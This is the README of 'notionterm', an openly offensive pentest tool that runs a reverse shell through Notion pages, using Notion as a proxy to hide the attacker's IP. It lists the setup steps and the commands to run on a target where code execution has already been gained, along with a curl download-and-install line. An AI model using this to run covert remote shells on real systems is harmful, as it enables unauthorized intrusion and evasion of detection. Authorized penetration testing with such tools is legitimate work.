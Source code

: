 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>

</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion: [Page template](https://fluff-grade-468.notion.site/notionterm-template-19dc9d0bbae04f40b56c475f8cd79607)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page

#### Server mode
To quickly obtain terminal in any notion page you can use the server mode (Requirement: *integration w/ write access to the page*)

**First**, Launch notionterm on target with server mode enable:
```shell
notionterm -serve [flags]
```
**Then**, when/where you want to get a terminal in your notion page create an embed block with url containing the page id *(`CTRL+L`to get it)*: `https://[TARGET_URL]/notionterm?url=[PAGE_ID]`.

Wait..

**And that's all!**

### Outgoing mode
**+**: only target -> notion page flux *(.i.e No need to have a HTTP server reachable on target)*
```shell
notionterm -outgoing [flags]
```
Launch notionterm and immediatly request notion page to retrieve command to execute (do not wait the button to be clicked).



## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
